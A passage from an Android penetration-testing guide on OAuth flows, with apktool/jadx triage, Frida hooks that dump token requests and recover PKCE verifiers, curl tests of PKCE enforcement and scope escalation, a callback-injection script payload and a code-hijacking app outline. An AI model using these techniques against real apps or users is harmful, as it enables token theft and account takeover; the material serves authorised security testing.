| `net.openid.appauth.*` classes | AppAuth. PKCE and `state` are handled correctly by the library. Focus on storage, scopes, and the redirect declaration. |
| `code_challenge` present, no `code_verifier` | The app sends a challenge but perhaps never the verifier — check the token request construction |
| `grant_type=password` | ROPC. Finding. |
| `client_secret` anywhere | Shipped secret. Finding. |
| `response_type` with the value `token` | Implicit. Finding. |
| `WebViewClient` + an authorise URL | Embedded user agent. Finding. |
| A hand-rolled `Random` used near `state` | Weak `state`. |

### 6.2 In the APK on disk

The redirect declaration is in the manifest, and it is the first thing to read:

```bash
# host
apktool d app.apk -o work/
# Every scheme this app claims:
grep -oE 'android:scheme="[^"]+"' work/AndroidManifest.xml | sort -u
# The full callback activity block:
python - <<'PY'
import re
x = open('work/AndroidManifest.xml', encoding='utf-8').read()
for m in re.finditer(r'<activity[^>]*>.*?</activity>', x, re.S):
    if 'BROWSABLE' in m.group(0):
        print(m.group(0), '\n---')
PY
```

Any activity with `android.intent.category.BROWSABLE` is reachable from a browser redirect or a link,
and is therefore reachable by any other app on the device via `startActivity`. Enumerate them all.

Also check `res/values/strings.xml` and any Gradle-generated `BuildConfig`, because that is where
`client_id`, discovery URLs and — depressingly often — `client_secret` live:

```bash
# host
grep -riE "client_?id|client_?secret|issuer|discovery|auth_?url|redirect" \
  work/res/values/strings.xml work/res/values/*.xml 2>/dev/null
grep -rn "BuildConfig" out/sources/ | grep -iE "client|oauth|auth" | head
```

### 6.3 Smali patterns

**Building the authorisation URL** (hand-rolled implementation):

```smali
# Uri.Builder appending OAuth parameters — the classic hand-rolled flow
new-instance v0, Landroid/net/Uri$Builder;
invoke-direct {v0}, Landroid/net/Uri$Builder;-><init>()V

const-string v1, "https"
invoke-virtual {v0, v1}, Landroid/net/Uri$Builder;->scheme(Ljava/lang/String;)Landroid/net/Uri$Builder;

const-string v1, "login.example.com"
invoke-virtual {v0, v1}, Landroid/net/Uri$Builder;->authority(Ljava/lang/String;)Landroid/net/Uri$Builder;

const-string v1, "response_type"
const-string v2, "code"
invoke-virtual {v0, v1, v2}, Landroid/net/Uri$Builder;->appendQueryParameter(Ljava/lang/String;Ljava/lang/String;)Landroid/net/Uri$Builder;

const-string v1, "client_id"
sget-object v2, Lcom/example/BuildConfig;->OAUTH_CLIENT_ID:Ljava/lang/String;
invoke-virtual {v0, v1, v2}, Landroid/net/Uri$Builder;->appendQueryParameter(Ljava/lang/String;Ljava/lang/String;)Landroid/net/Uri$Builder;
```

Read the sequence of `appendQueryParameter` calls and you have reconstructed the exact authorisation
request without running the app. **If there is no `code_challenge` in that sequence, PKCE is absent on
the client side, full stop.**

**Reading the callback:**

```smali
# The callback activity extracting the code
invoke-virtual {p0}, Lcom/example/OAuthCallbackActivity;->getIntent()Landroid/content/Intent;
move-result-object v0
invoke-virtual {v0}, Landroid/content/Intent;->getData()Landroid/net/Uri;
move-result-object v1
const-string v2, "code"
invoke-virtual {v1, v2}, Landroid/net/Uri;->getQueryParameter(Ljava/lang/String;)Ljava/lang/String;
move-result-object v3
```

**The `state` comparison — or its absence:**

```smali
# What a CORRECT state check looks like
const-string v2, "state"
invoke-virtual {v1, v2}, Landroid/net/Uri;->getQueryParameter(Ljava/lang/String;)Ljava/lang/String;
move-result-object v4
iget-object v5, p0, Lcom/example/OAuthCallbackActivity;->savedState:Ljava/lang/String;
invoke-virtual {v5, v4}, Ljava/lang/String;->equals(Ljava/lang/Object;)Z
move-result v6
if-nez v6, :state_ok
# ... abort path ...
:state_ok
```

If you extract the `code` and there is **no** `String.equals` against a stored value anywhere on the
path from `getQueryParameter("state")`, the app does not validate `state`. That absence is the
finding, and Smali is where you prove it beyond doubt.

**PKCE generation:**

```smali
# SHA-256 over the verifier — the S256 challenge
const-string v0, "SHA-256"
invoke-static {v0}, Ljava/security/MessageDigest;->getInstance(Ljava/lang/String;)Ljava/security/MessageDigest;
move-result-object v1
invoke-virtual {v2}, Ljava/lang/String;->getBytes()[B
move-result-object v3
invoke-virtual {v1, v3}, Ljava/security/MessageDigest;->digest([B)[B
move-result-object v4
const/16 v5, 0xb          # Base64.URL_SAFE | NO_WRAP | NO_PADDING  == 8 | 2 | 1
invoke-static {v4, v5}, Landroid/util/Base64;->encodeToString([BI)Ljava/lang/String;
```

Note the Base64 flags constant. `Base64.URL_SAFE` is 8, `NO_PADDING` is 1, `NO_WRAP` is 2, so the
correct combination is `0xB`. Seeing `0x0` (`DEFAULT`) there means standard base64 with padding and
newlines, which will not match what the server computes — a bug you will occasionally find, usually
"fixed" by the developer switching to `plain`.

### 6.4 What obfuscation does to it

R8/ProGuard renames classes, methods and fields. It does **not** rewrite string constants that must
match a wire protocol. So after obfuscation:

| Before | After |
|---|---|
| `class OAuthManager` | `class a.b.c` |
| `String buildAuthUrl()` | `String a()` |
| `"code_challenge"` | `"code_challenge"` — unchanged, it is on the wire |
| `"https://login.example.com"` | Possibly moved into a string-decryption routine |

String encryption (DexGuard, commercial packers) does hide the literals. Two answers:

1. **Do not fight it statically.** Hook `java.lang.String` construction or, far more practically, hook
   the HTTP layer and read the URL after decryption. See
   [`scripts/oauth-flow-tracer.js`](scripts/oauth-flow-tracer.js).
2. **Proxy first.** The protocol is on the wire regardless of how well the strings are hidden. An
   obfuscated app still sends `code_challenge=` to the authorisation server. Static obfuscation is
   almost irrelevant to OAuth analysis for this reason — which is worth remembering when a client
   claims their obfuscation mitigates an OAuth finding. It does not.

> **🔍 Pentester's Note**
> A client will sometimes argue "the `client_secret` is safe because the app is obfuscated and the
> string is encrypted". The rebuttal is one command: hook the point where the decrypted string is
> used. If you can show the secret printed in a Frida console on a stock device in thirty seconds, the
> argument ends. Prepare that demonstration before the meeting.

### 6.5 Native OAuth implementations

Some apps (Flutter, React Native, Unity, and hand-rolled C++ networking layers) implement OAuth
outside the Java layer.

| Runtime | Where the flow lives | How to find it |
|---|---|---|
| Flutter | Dart in `libapp.so`, HTTP through Dart's own stack — **ignores the system proxy** | `reFlutter`, or hook `libflutter.so` SSL functions; for the redirect, the Java `MainActivity` still receives the intent |
| React Native | JavaScript in `index.android.bundle` — grep it directly | `unzip -p app.apk assets/index.android.bundle \| grep -o "code_challenge"` |
| Xamarin / .NET | Assemblies in `assemblies/` | `ilspycmd` or `dnSpy` on the extracted DLLs |
| Native C/C++ | `libfoo.so` calling libcurl or a custom stack | `strings -a lib/arm64-v8a/*.so \| grep -iE "oauth\|authorize\|client_id"` |

For Flutter especially, remember that the redirect **must** come back through the Android intent
system, so the manifest still tells you the redirect URI even when everything else is opaque.

---

## 7. Dynamic Analysis

### 7.1 Setting up interception

You cannot test what you cannot see. The prerequisite for everything in this section is a proxy that
sees the `/authorize` request, the redirect, and the `/token` exchange.

```bash
# host — route the device through Burp
adb reverse tcp:8080 tcp:8080
adb shell settings put global http_proxy 127.0.0.1:8080
# ... test ...
adb shell settings put global http_proxy :0
```

Install the proxy CA as a **system** certificate — see [35-SSL](../35-SSL/README.md) — because from
API 24 an app that does not opt into user CAs will not trust yours. If the app pins, see
[36-CertificatePinning](../36-CertificatePinning/README.md); `objection -g <pkg> explore -s "android
sslpinning disable"` handles the common cases and a Frida script handles the rest.

> **⚠️ Warning — the Custom Tab is a separate app**
> The `/authorize` request is made by the **browser**, not by your target app. That has two
> consequences testers regularly trip over. First, a Frida script attached to the target app will
> never see it. Second, if you are proxying selectively by package, you must include the browser.
> Setting the device-wide proxy avoids both problems. Certificate pinning in the *app* also does not
> apply to the browser's request, which is why you will often see `/authorize` fine and `/token`
> blocked, or vice versa.

Verify you can see all three legs before you start testing. A checklist:

| Leg | Made by | Visible in the proxy? |
|---|---|---|
| `GET /authorize` | Browser / Custom Tab | Should be, with the device proxy set |
| `302` to the redirect URI | Browser receives it | Yes — this is where you read `code` and `state` |
| `POST /token` | The app itself | Requires the app's TLS to be interceptable (CA + pinning bypass) |
| `GET /api/*` | The app | Same |

### 7.2 Reading a captured authorisation request

Take the raw URL and decompose it. Do this by hand once; after that use
[`scripts/oauth-param-decoder.py`](scripts/oauth-param-decoder.py).

```bash
# host
python3 scripts/oauth-param-decoder.py \
  "https://login.example.com/authorize?response_type=code&client_id=android-prod-4471&redirect_uri=exampleapp%3A%2F%2Foauth%2Fcallback&scope=openid%20profile%20accounts.read%20accounts.write&state=8f2c1a&code_challenge=E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM&code_challenge_method=S256"
```

Then fill in this table for the report. Every engagement produces one.

| Parameter | Value | Assessment |
|---|---|---|
| `response_type` | `code` | ✅ Correct grant |
| `client_id` | `android-prod-4471` | Note it; check whether the same ID is used by the web client |
| `redirect_uri` | `exampleapp://oauth/callback` | ⚠️ Custom scheme — hijackable; check PKCE enforcement |
| `scope` | `openid profile accounts.read accounts.write` | ⚠️ Is `accounts.write` used by any feature? |
| `state` | `8f2c1a` | ⚠️ Only 24 bits — too short. And is it *checked*? |
| `code_challenge` | 43 chars, base64url | ✅ Present |
| `code_challenge_method` | `S256` | ✅ Correct — **but presence ≠ enforcement** |
| `nonce` | *absent* | ⚠️ OIDC flow with no nonce |
| `prompt` / `max_age` | *absent* | Note: no forced re-authentication for sensitive operations |

### 7.3 Replaying the callback by hand

You do not need the browser to deliver a callback. `am start` does it, and it is how you test
`state` handling, callback parsing, and injection.

```bash
# adb shell — normal callback
am start -a android.intent.action.VIEW \
  -d "exampleapp://oauth/callback?code=REALCODE&state=REALSTATE"

# state removed
am start -a android.intent.action.VIEW -d "exampleapp://oauth/callback?code=REALCODE"

# state wrong
am start -a android.intent.action.VIEW -d "exampleapp://oauth/callback?code=REALCODE&state=AAAA"

# error response — does the app handle it, or crash?
am start -a android.intent.action.VIEW \
  -d "exampleapp://oauth/callback?error=access_denied&error_description=nope&state=REALSTATE"

# injection into the parser
am start -a android.intent.action.VIEW \
  -d "exampleapp://oauth/callback?code=%27%22%3E%3Cscript%3Ealert(1)%3C/script%3E&state=REALSTATE"
```

Watch logcat while doing this and note whether a `/token` request follows. A `/token` request after
the "state wrong" case is a confirmed finding.

### 7.4 Frida — tracing the whole flow

The complete, commented script is [`scripts/oauth-flow-tracer.js`](scripts/oauth-flow-tracer.js).
Here is the core of it, which is worth understanding rather than just running:

```javascript
// frida -U -f com.example.bank -l oauth-flow-tracer.js
// Traces OAuth activity across the four layers an Android app can use.
Java.perform(function () {

  // 1) The authorisation request leaving the app, whichever way it goes out.
  var Intent = Java.use("android.content.Intent");
  var Activity = Java.use("android.app.Activity");
  Activity.startActivity.overload("android.content.Intent").implementation = function (i) {
    var d = i.getData();
    if (d !== null && /authorize|oauth|openid/i.test(d.toString())) {
      console.log("\n[AUTHORIZE REQUEST]\n  " + d.toString());
    }
    return this.startActivity(i);
  };

  // 2) The callback arriving.
  Activity.getIntent.implementation = function () {
    var i = this.getIntent();
    try {
      var d = i.getData();
      if (d !== null && /code=|access_token=|error=/.test(d.toString())) {
        console.log("\n[CALLBACK]\n  " + d.toString());
      }
    } catch (e) {}
    return i;
  };

  // 3) The token exchange, if the app uses OkHttp (most do).
  try {
    var Buffer = Java.use("okio.Buffer");
    var RealCall = Java.use("okhttp3.internal.connection.RealCall");  // OkHttp 4.x
    RealCall.getOriginalRequest.implementation = function () {
      var req = this.getOriginalRequest();
      var url = req.url().toString();
      if (/token|oauth|authorize/i.test(url)) {
        console.log("\n[HTTP] " + req.method() + " " + url);
        var body = req.body();
        if (body !== null) {
          var b = Buffer.$new();
          body.writeTo(b);
          console.log("  body: " + b.readUtf8());
        }
      }
      return req;
    };
  } catch (e) { console.log("[i] OkHttp 4 hook unavailable: " + e); }

  // 4) AppAuth internals, if present — this gives you the code_verifier directly.
  try {
    var TokenRequest = Java.use("net.openid.appauth.TokenRequest");
    TokenRequest.getRequestParameters.implementation = function () {
      var m = this.getRequestParameters();
      console.log("\n[AppAuth TokenRequest] " + m.toString());
      return m;
    };
  } catch (e) { /* AppAuth not in use */ }
});
```

Layer 4 is the shortcut. If the app uses AppAuth, hooking `TokenRequest.getRequestParameters()`
prints the `code`, the `code_verifier`, the `client_id` and the `redirect_uri` in one map, and you can
paste them straight into `curl` for the enforcement test below.

### 7.5 The single most important test: PKCE enforcement

Everything above is preparation for this.

> **🧠 Mental Model**
> `code_challenge=...&code_challenge_method=S256` in the request proves that the **client** implements
> PKCE. It proves nothing whatsoever about the **server**. PKCE's entire security value comes from the
> server refusing a token request that does not present a matching verifier. A server that accepts the
> request anyway has PKCE as decoration. The client cannot fix this and cannot detect it. Only you can.

**The procedure.**

1. Capture a live authorisation code and, from the same flow, the `code_verifier` (Frida hook above,
   or the AppAuth hook, or by reading the app's outgoing `/token` body in the proxy).
2. Intercept the `/token` request in Burp **before** it is sent, so the code is still unused.
3. Send three variants and record the response for each.

```bash
# host — variant A: the legitimate request, as a control. This MUST succeed.
curl -s -X POST "https://login.example.com/oauth2/token" \
  -d grant_type=authorization_code \
  -d code="$CODE" \
  -d redirect_uri="exampleapp://oauth/callback" \
  -d client_id="$CLIENT_ID" \
  -d code_verifier="$VERIFIER" | jq .
```

```bash
# host — variant B: code_verifier REMOVED ENTIRELY. This MUST fail.
curl -s -X POST "https://login.example.com/oauth2/token" \
  -d grant_type=authorization_code \
  -d code="$CODE" \
  -d redirect_uri="exampleapp://oauth/callback" \
  -d client_id="$CLIENT_ID" | jq .
```

```bash
# host — variant C: code_verifier present but WRONG. This MUST fail.
curl -s -X POST "https://login.example.com/oauth2/token" \
  -d grant_type=authorization_code \
  -d code="$CODE" \
  -d redirect_uri="exampleapp://oauth/callback" \
  -d client_id="$CLIENT_ID" \
  -d code_verifier="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | jq .
```

Each variant needs a **fresh code**, because a correct server burns the code on first use regardless
of outcome. That is itself worth testing — variant D below.

```bash
# host — variant D: single-use enforcement. Redeem a code twice with the CORRECT verifier.
# The second attempt must fail, and a hardened AS revokes any tokens issued from the first.
```

```bash
# host — variant E: PKCE downgrade. Start a NEW authorisation with method=plain
# and challenge=X, then redeem with code_verifier=X.
# If this succeeds, an attacker who intercepts the redirect can also downgrade.
```

**Interpretation table — put this in the report:**

| Variant | Expected | If it succeeds instead |
|---|---|---|
| A — correct verifier | 200 with tokens | (control) |
| B — verifier omitted | `400 invalid_grant` | 🔴 **Critical. PKCE is not enforced. Code interception yields account takeover.** |
| C — wrong verifier | `400 invalid_grant` | 🔴 **Critical. Verification is not performed.** |
| D — code reused | `400 invalid_grant` | 🟠 High. Codes are not single-use; replay window. |
| E — plain downgrade | `400 invalid_request` | 🟠 High. PKCE can be downgraded by an interceptor. |

> **🔍 Pentester's Note**
> When variant B succeeds, the finding writes itself, and the business impact statement is the part
> that gets it fixed: *"Any application installed on the user's device can register the redirect scheme
> `exampleapp://`, receive the authorisation code during a legitimate login, and exchange it for a full
> access and refresh token set without any secret. This results in complete account takeover, is
> invisible to the user and to the application, and persists across password changes because the
> refresh token is unaffected by a credential reset."* Attach the two `curl` transcripts. That is the
> whole report.

### 7.6 Building the competing-scheme app

The complete lab is [`labs/lab-03-scheme-hijack.md`](labs/lab-03-scheme-hijack.md), and a ready-to-build
project skeleton is in [`examples/scheme-hijacker/`](examples/). The essentials:

```bash
# host — confirm a collision exists before building anything
adb shell cmd package query-activities \
  -a android.intent.action.VIEW -d "exampleapp://oauth/callback"
```

If that lists one activity, install your hijacker and run it again. Two entries means the platform
will now offer a choice — and in the "user tapped Always" case, no choice at all.

```bash
# host — after installing the hijacker
adb install -r hijacker.apk
adb shell cmd package query-activities \
  -a android.intent.action.VIEW -d "exampleapp://oauth/callback"
adb logcat -c
# now perform a real login in the target app
adb logcat -s STOLEN:W
```

A `code=` line in that output is your proof of interception. Combined with variant B above, it is your
proof of impact.

### 7.7 Objection

```bash
# host
objection -g com.example.bank explore
```

```
# inside objection
android hooking search classes oauth
android hooking search classes appauth
android hooking watch class_method net.openid.appauth.AuthorizationService.performTokenRequest --dump-args
android hooking watch class_method android.webkit.WebView.loadUrl --dump-args --dump-backtrace
android keystore list
env
file download /data/data/com.example.bank/shared_prefs/AuthStatePrefs.xml ./authstate.xml
```

`--dump-backtrace` on `WebView.loadUrl` is how you find *which* class opened the WebView when the flow
is obfuscated — the stack trace names the caller even when the class name is `a.b.c`.

### 7.8 Testing the discovery document and server posture

Some of the strongest findings are server-side and take one command:

```bash
# host
D=https://login.example.com/.well-known/openid-configuration
curl -s $D | jq '{
  issuer,
  grant_types_supported,
  response_types_supported,
  code_challenge_methods_supported,
  token_endpoint_auth_methods_supported,
  id_token_signing_alg_values_supported,
  require_pushed_authorization_requests,
  revocation_endpoint,
  introspection_endpoint
}'
```

| Field | Red flag |
|---|---|
| `grant_types_supported` contains `password` | ROPC enabled server-wide |
| `response_types_supported` contains `token` | Implicit still enabled |
| `code_challenge_methods_supported` missing | The AS may not support PKCE at all |
| `code_challenge_methods_supported` contains `plain` | Downgrade possible |
| `id_token_signing_alg_values_supported` contains `none` | 🔴 Serious — see [46-Tokens](../46-Tokens/README.md) |
| `id_token_signing_alg_values_supported` contains `HS256` for a public client | Algorithm-confusion surface |
| No `revocation_endpoint` | Logout cannot invalidate tokens server-side |

### 7.9 Post-flow checks

Once you hold tokens, three more tests belong to this chapter before you hand off to
[46-Tokens](../46-Tokens/README.md):

```bash
# adb shell as root — 1. where did they land?
find /data/data/com.example.bank -type f \
  \( -name '*.xml' -o -name '*.db' -o -name '*.json' \) \
  -exec grep -l -E 'refreshToken|access_token|eyJ[A-Za-z0-9_-]{10,}' {} \;
```

```bash
# host — 2. does logout actually revoke? Capture a token, log out in the UI, then:
curl -s -H "Authorization: Bearer $ACCESS_TOKEN" https://api.example.com/v1/me | jq .
curl -s -X POST https://login.example.com/oauth2/token \
  -d grant_type=refresh_token -d refresh_token="$REFRESH_TOKEN" -d client_id="$CID" | jq .
# If either still works after logout, logout is client-side only. Very common. See ch. 47.
```

```bash
# host — 3. scope escalation on refresh
curl -s -X POST https://login.example.com/oauth2/token \
  -d grant_type=refresh_token -d refresh_token="$REFRESH_TOKEN" \
  -d client_id="$CID" -d scope="openid profile accounts.read accounts.write admin" | jq .
```

---

## 8. Static Analysis

### 8.1 The manifest

```bash
# host
apktool d app.apk -o work/
```

Read for these five things, in this order:

| # | What to look for | Command | Why |
|---|---|---|---|
| 1 | Every declared scheme | `grep -oE 'android:scheme="[^"]+"' work/AndroidManifest.xml \| sort -u` | Identifies the redirect mechanism |
| 2 | `autoVerify="true"` on the callback filter | `grep -n 'autoVerify' work/AndroidManifest.xml` | App Links claimed |
| 3 | Exported activities with `BROWSABLE` | see the Python snippet in [6.2](#62-in-the-apk-on-disk) | The externally reachable surface |
| 4 | `android:launchMode` on the callback | `grep -n 'launchMode' work/AndroidManifest.xml` | `singleTask`/`singleInstance` affects whether a stale intent can be re-delivered |
| 5 | `android:taskAffinity` | `grep -n 'taskAffinity' work/AndroidManifest.xml` | Task-hijacking interaction (StrandHogg-style) with the callback activity |

Item 5 is a genuine cross-cutting concern: a callback activity with a default task affinity can be
placed in a task another app influenced. See [30-Activities](../30-Activities/README.md).

### 8.2 The code

```bash
# host
jadx -d out/ app.apk

echo "== Grant type =="
grep -rn "grant_type" out/sources/ | grep -oE '"[a-z_]+"' | sort | uniq -c

echo "== Response type =="
grep -rn "response_type" out/sources/ -A2 | grep -oE '"(code|token|id_token)[^"]*"' | sort | uniq -c

echo "== PKCE =="
grep -rn "code_challenge\|code_verifier\|S256" out/sources/ | head -20

echo "== Shipped secrets =="
grep -rn "client_secret" out/sources/
grep -rniE "clientSecret|CLIENT_SECRET" out/sources/ | head

echo "== WebView-based auth =="
grep -rn "loadUrl" out/sources/ | grep -iE "authorize|oauth|/auth\?"

echo "== State generation =="
grep -rn -B3 -A3 '"state"' out/sources/ | grep -iE "Random|SecureRandom|UUID|currentTimeMillis" | head

echo "== JWT handling on the client =="
grep -rn "split(\"\\\\.\")\|Base64.decode" out/sources/ | grep -iE "token|jwt" | head

echo "== Libraries =="
grep -rn "net.openid.appauth" out/sources/ | head -3
grep -rn "com.google.android.gms.auth" out/sources/ | head -3
grep -rn "com.microsoft.identity" out/sources/ | head -3
grep -rn "com.auth0" out/sources/ | head -3
grep -rn "com.okta" out/sources/ | head -3
```

The `State generation` grep is the one that finds weak `state`. `UUID.randomUUID()` is acceptable
(it uses `SecureRandom` internally on Android). `new Random()`, `Math.random()`, or anything derived
from `System.currentTimeMillis()` is not.

### 8.3 Resources, Gradle and network config

```bash
# host
grep -riE "client_?id|client_?secret|issuer|discovery|authoriz|redirect_?uri" \
  work/res/values/*.xml

# Manifest placeholders are how AppAuth's redirect scheme is usually configured;
# the value may only exist in build.gradle in the source repo, but the merged
# manifest in the APK always has the real value.
grep -n "appAuthRedirectScheme" -r . 2>/dev/null

# Cleartext allowed anywhere? An OAuth endpoint over http:// is fatal.
cat work/res/xml/network_security_config.xml 2>/dev/null
grep -n "usesCleartextTraffic" work/AndroidManifest.xml
```

See [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md). A `<domain-config
cleartextTrafficPermitted="true">` covering the authorisation server's domain turns every network
attacker into a token thief.

### 8.4 Native and cross-platform

```bash
# host
unzip -o app.apk -d raw/ >/dev/null

# React Native
[ -f raw/assets/index.android.bundle ] && \
  grep -oE "code_challenge|response_type|client_secret|grant_type" raw/assets/index.android.bundle | sort | uniq -c

# Flutter
[ -f raw/lib/arm64-v8a/libapp.so ] && \
  strings -a raw/lib/arm64-v8a/libapp.so | grep -iE "authorize|client_id|code_challenge" | head

# Any native library
for so in raw/lib/*/*.so; do
  strings -a "$so" | grep -qiE "client_secret|grant_type" && echo "OAuth strings in $so"
done
```

### 8.5 A complete static triage script

The full version is [`scripts/oauth-static-triage.sh`](scripts/oauth-static-triage.sh). Run it first
on every engagement; it produces the parameter table and the finding candidates in about a minute.

---

## 9. Examples

### 9.1 Simple — a minimal, correct authorisation request by hand

This is deliberately dependency-free so that every step is visible. It is **not** what you should
ship; ship AppAuth. But you must be able to write this from memory to understand what AppAuth does.

```kotlin
// Android / Kotlin — examples/01-minimal-pkce/MinimalPkce.kt
package com.example.oauthdemo

import android.content.Intent
import android.net.Uri
import android.os.Bundle
import android.util.Base64
import androidx.appcompat.app.AppCompatActivity
import androidx.browser.customtabs.CustomTabsIntent
import java.security.MessageDigest
import java.security.SecureRandom

class MinimalPkceActivity : AppCompatActivity() {

    companion object {
        private const val AUTH_ENDPOINT = "https://login.example.com/oauth2/authorize"
        private const val CLIENT_ID     = "android-demo-client"
        // Verified App Link, not a custom scheme.
        private const val REDIRECT_URI  = "https://login.example.com/android/callback"
        private const val SCOPES        = "openid profile accounts.read"
    }

    private lateinit var codeVerifier: String
    private lateinit var state: String
    private lateinit var nonce: String

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        findViewById<android.widget.Button>(R.id.btn_login).setOnClickListener { startAuth() }
    }

    /** Generates 512 bits of entropy and returns it as an unreserved-character string. */
    private fun randomUrlSafe(bytes: Int = 64): String {
        val b = ByteArray(bytes)
        SecureRandom().nextBytes(b)
        return Base64.encodeToString(b, Base64.URL_SAFE or Base64.NO_WRAP or Base64.NO_PADDING)
    }

    private fun s256(verifier: String): String {
        val digest = MessageDigest.getInstance("SHA-256")
            .digest(verifier.toByteArray(Charsets.US_ASCII))   // ASCII of the string, not raw entropy
        return Base64.encodeToString(digest, Base64.URL_SAFE or Base64.NO_WRAP or Base64.NO_PADDING)
    }

    private fun startAuth() {
        codeVerifier = randomUrlSafe()      // never leaves this process
        state        = randomUrlSafe(32)    // 256 bits
        nonce        = randomUrlSafe(32)

        // In a real app persist these in an encrypted store keyed by a request id,
        // because the process can be killed while the Custom Tab is in the foreground.
        PendingAuth.save(this, state, codeVerifier, nonce)

        val uri = Uri.parse(AUTH_ENDPOINT).buildUpon()
            .appendQueryParameter("response_type", "code")
            .appendQueryParameter("client_id", CLIENT_ID)
            .appendQueryParameter("redirect_uri", REDIRECT_URI)
            .appendQueryParameter("scope", SCOPES)
            .appendQueryParameter("state", state)
            .appendQueryParameter("nonce", nonce)
            .appendQueryParameter("code_challenge", s256(codeVerifier))
            .appendQueryParameter("code_challenge_method", "S256")
            .build()

        // A Custom Tab: a real browser, in the browser's process. NOT a WebView.
        CustomTabsIntent.Builder()
            .setShowTitle(true)
            .build()
            .launchUrl(this, uri)
    }
}
```

The callback half, showing the validation that must not be skipped:

```kotlin
// Android / Kotlin — examples/01-minimal-pkce/CallbackActivity.kt
class CallbackActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        val data: Uri = intent?.data ?: return finishWithError("no data")

        // 1. An error response is a legitimate outcome and must be handled, not ignored.
        data.getQueryParameter("error")?.let {
            return finishWithError("$it: ${data.getQueryParameter("error_description")}")
        }

        val code  = data.getQueryParameter("code")  ?: return finishWithError("no code")
        val state = data.getQueryParameter("state") ?: return finishWithError("no state")

        // 2. state MUST be compared, and the absence of state MUST be fatal.
        //    Note the ordering: load first, then compare, then consume.
        val pending = PendingAuth.load(this) ?: return finishWithError("no pending request")
        if (!MessageDigest.isEqual(                       // constant-time comparison
                state.toByteArray(), pending.state.toByteArray())) {
            return finishWithError("state mismatch — possible CSRF")
        }
        PendingAuth.clear(this)                            // single use

        // 3. Exchange over the back channel, presenting the verifier.
        exchange(code, pending.codeVerifier, pending.nonce)
    }
}
```

### 9.2 Intermediate — the same flow, done properly with AppAuth

```kotlin
// Android / Kotlin — examples/02-appauth/AppAuthLogin.kt
class AppAuthLogin : AppCompatActivity() {

    private val authService by lazy { AuthorizationService(this) }
    private lateinit var authState: AuthState

    private val authLauncher = registerForActivityResult(
        ActivityResultContracts.StartActivityForResult()
    ) { result ->
        val data = result.data ?: return@registerForActivityResult
        val resp = AuthorizationResponse.fromIntent(data)
        val ex   = AuthorizationException.fromIntent(data)
        authState = AuthState(resp, ex)                 // state validated inside the library

        if (resp == null) { showError(ex); return@registerForActivityResult }

        authService.performTokenRequest(
            resp.createTokenExchangeRequest(),          // carries the code_verifier automatically
            NoClientAuthentication.INSTANCE             // public client — there is no secret
        ) { tokenResp, tokenEx ->
            authState.update(tokenResp, tokenEx)
            // id_token validation is performed by AppAuth (issuer, audience, expiry, nonce)
            // when the response contains one and the config came from discovery.
            TokenStore.persist(this, authState.jsonSerializeString())
            onLoggedIn()
        }
    }

    private fun login() {
        AuthorizationServiceConfiguration.fetchFromIssuer(
            Uri.parse(BuildConfig.OAUTH_ISSUER)
        ) { config, ex ->
            if (config == null) { showError(ex); return@fetchFromIssuer }
            val req = AuthorizationRequest.Builder(
                config,
                BuildConfig.OAUTH_CLIENT_ID,
                ResponseTypeValues.CODE,
                Uri.parse(BuildConfig.OAUTH_REDIRECT_URI)
            )
                .setScopes("openid", "profile", "accounts.read")
                .setPrompt(AuthorizationRequest.Prompt.SELECT_ACCOUNT)
                .build()
            authLauncher.launch(authService.getAuthorizationRequestIntent(req))
        }
    }

    /** Every API call goes through this, so refresh is handled in exactly one place. */
    private fun withFreshToken(action: (String) -> Unit) {
        authState.performActionWithFreshTokens(authService) { accessToken, _, ex ->
            if (accessToken == null) { forceReLogin(ex); return@performActionWithFreshTokens }
            action(accessToken)
        }
    }
}
```

### 9.3 Advanced — a Frida agent that extracts everything

This is the script you attach when you have thirty minutes and want the whole picture. The full file
is [`scripts/oauth-flow-tracer.js`](scripts/oauth-flow-tracer.js); the excerpt below shows the
technique that is least obvious — recovering the `code_verifier` from a hand-rolled implementation
when you do not know the class name.

```javascript
// frida -U -f com.example.bank -l find-verifier.js
// Recovers a PKCE code_verifier without knowing any class names, by hooking
// the only two APIs a correct implementation must use: SecureRandom and SHA-256.
Java.perform(function () {
  var MessageDigest = Java.use("java.security.MessageDigest");
  var Base64 = Java.use("android.util.Base64");

  // Every S256 challenge is a SHA-256 digest of the ASCII verifier.
  MessageDigest.digest.overload("[B").implementation = function (input) {
    var algo = this.getAlgorithm();
    var out = this.digest(input);
    if (algo === "SHA-256" && input.length >= 43 && input.length <= 128) {
      var s = "";
      for (var i = 0; i < input.length; i++) s += String.fromCharCode(input[i] & 0xff);
      if (/^[A-Za-z0-9\-._~]+$/.test(s)) {
        console.log("\n[PKCE] Probable code_verifier (" + s.length + " chars):\n  " + s);
        console.log("[PKCE] Its S256 challenge: " +
          Base64.encodeToString(out, 8 | 2 | 1));   // URL_SAFE|NO_WRAP|NO_PADDING
        console.log(Java.use("android.util.Log").getStackTraceString(
          Java.use("java.lang.Exception").$new()));
      }
    }
    return out;
  };
});
```

The insight is that the *shape* of the data identifies it. A 43–128 byte input to SHA-256 consisting
only of unreserved URL characters is a `code_verifier` with near-certainty, and the stack trace tells
you which obfuscated class produced it.

### 9.4 Real application — testing a banking app's SSO

A realistic engagement narrative, compressed. The target is a retail banking app that offers "Sign in
with your bank ID", which is a corporate OIDC provider.

**Step 1 — recon.** `apktool` reveals `<data android:scheme="com.bigbank.mobile" android:host="auth"/>`
with no `autoVerify`. So: custom scheme, hijackable, PKCE enforcement becomes the whole ballgame.
`strings.xml` yields `oauth_client_id`. No `client_secret` — good.

**Step 2 — observe.** Device proxy set, system CA installed, `objection` disables the app's pinning.
The `/authorize` request contains `code_challenge_method=S256`. Encouraging.

**Step 3 — Frida.** The AppAuth hook fires, so the app uses AppAuth, and prints the `TokenRequest`
map including `code_verifier`.

**Step 4 — the enforcement test.** A fresh code, redeemed by `curl` with no `code_verifier` at all:

```json
{"access_token":"eyJhbGciOiJSUzI1NiIs...","refresh_token":"AAA...","expires_in":3600,
 "token_type":"Bearer","scope":"openid profile accounts.read accounts.write payments.initiate"}
```

The server issued tokens without the verifier. PKCE is decoration.

**Step 5 — proof of interception.** Build the 30-line hijacker app, install it, log in through the
